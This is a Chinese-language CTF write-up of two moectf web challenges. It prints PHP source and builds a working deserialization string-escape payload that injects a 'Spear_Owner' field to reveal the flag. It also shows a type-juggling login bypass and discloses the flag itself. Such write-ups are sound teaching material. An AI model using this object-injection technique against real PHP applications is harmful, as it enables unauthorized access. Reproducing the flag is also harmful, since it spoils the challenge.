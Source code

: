 # Web
### Author: 0xcafebabe


## CHALLENGE: 夺命十三枪
### 这道题对于我们根本没接触过web-php的小白来说是耳目一新，非常有趣，刷新了对php危险性的认知（
进去后直接给了我们php源码
```php
<?php
highlight_file(__FILE__);

require_once('Hanxin.exe.php');

$Chant = isset($_GET['chant']) ? $_GET['chant'] : '夺命十三枪';

$new_visitor = new Omg_It_Is_So_Cool_Bring_Me_My_Flag($Chant);

$before = serialize($new_visitor);
$after = Deadly_Thirteen_Spears::Make_a_Move($before);
echo 'Your Movements: ' . $after . '<br>';

try{
    echo unserialize($after);
}catch (Exception $e) {
    echo "Even Caused A Glitch...";
}
?>
```
初始输出：

```php
Your Movements: O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:15:"夺命十三枪";s:11:"Spear_Owner";s:6:"Nobody";}
Far away from COOL...
```

观察Hanxin.exe.php

```php
<?php

if (basename($_SERVER['SCRIPT_FILENAME']) === basename(__FILE__)) {
    highlight_file(__FILE__);
}

class Deadly_Thirteen_Spears{
    private static $Top_Secret_Long_Spear_Techniques_Manual = array(
        "di_yi_qiang" => "Lovesickness",
        "di_er_qiang" => "Heartbreak",
        "di_san_qiang" => "Blind_Dragon",
        "di_si_qiang" => "Romantic_charm",
        "di_wu_qiang" => "Peerless",
        "di_liu_qiang" => "White_Dragon",
        "di_qi_qiang" => "Penetrating_Gaze",
        "di_ba_qiang" => "Kunpeng",
        "di_jiu_qiang" => "Night_Parade_of_a_Hundred_Ghosts",
        "di_shi_qiang" => "Overlord",
        "di_shi_yi_qiang" => "Letting_Go",
        "di_shi_er_qiang" => "Decisive_Victory",
        "di_shi_san_qiang" => "Unrepentant_Lethality"
    );

    public static function Make_a_Move($move){
        foreach(self::$Top_Secret_Long_Spear_Techniques_Manual as $index => $movement){
            $move = str_replace($index, $movement, $move);
        }
        return $move;
    }
}

class Omg_It_Is_So_Cool_Bring_Me_My_Flag{

    public $Chant = '';
    public $Spear_Owner = 'Nobody';

    function __construct($chant){
        $this->Chant = $chant;
        $this->Spear_Owner = 'Nobody';
    }

    function __toString(){
        if($this->Spear_Owner !== 'MaoLei'){
            return 'Far away from COOL...';
        }
        else{
            return "Omg You're So COOOOOL!!! " . getenv('FLAG');
        }
    }
}

?>
```

发现是一个超级危险的序列化函数，我们需要利用这个性质来修改Spear_Owner的值，让它输出FLAG

观察到，我们可以在字符串中掺入可以替换的文本，让php帮我们替换掉，这样没有更改s:xxxx的长度，但是却自己更改了文本内容。

观察到："di_yi_qiang" => "Lovesickness"，是一个可以把文本长度从11变12的payload，当然你可以使用其他的来实现，但是作为保守派，我才用一个一个一个一个..弄。

我们使用payload: chant=di_yi_qiang

```php
Your Movements: O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:11:"Lovesickness";s:11:"Spear_Owner";s:6:"Nobody";}
```

观察到s:11:"Lovesickness"，所以说重新序列化后它会认为最后一个s并不是Chant的里面的值，所以说字符串后面我们可以附加上我们想要是修改的Spear_Owner

也就是说我们需要在Chant里面就进行如下内容的修改：
";s:11:"Spear_Owner";s:6:"MaoLei";}

上述文本长度是35，所以
payload:
```php
chant=di_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiangdi_yi_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}
```

拿下！
```php
Your Movements: O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:420:"LovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesicknessLovesickness";s:11:"Spear_Owner";s:6:"MaoLei";}";s:11:"Spear_Owner";s:6:"Nobody";}
Omg You're So COOOOOL!!! moectf{C00L_b0Y!_AgRLCa33Xigs7VoTFcew67j7Fkc3cTl8}
```


## CHALLENGE: signin

```py
if params.get("username") == params.get("password"):
    self.send_response(403)
    self.end_headers()
    self.wfile.write(b"YOU CANNOT LOGIN WITH SAME USERNAME AND PASSWORD!")
    print("same")
    return
```

提交： {"username": "1", "password": 1}

即：VjJ4b2MxTXdNVmhVV0d4WFltMTRjRmxzVm1GTlJtUnpWR3R3VDJFeWVFVlZNV2h2VTIxR1dWcEhOVlJXZWxaRVdWVmtUbVZzVW5GVWJXeE9UVWhDZVZVeFpIZGtiRzkzVFZac1RsSkVRVGs9
即可过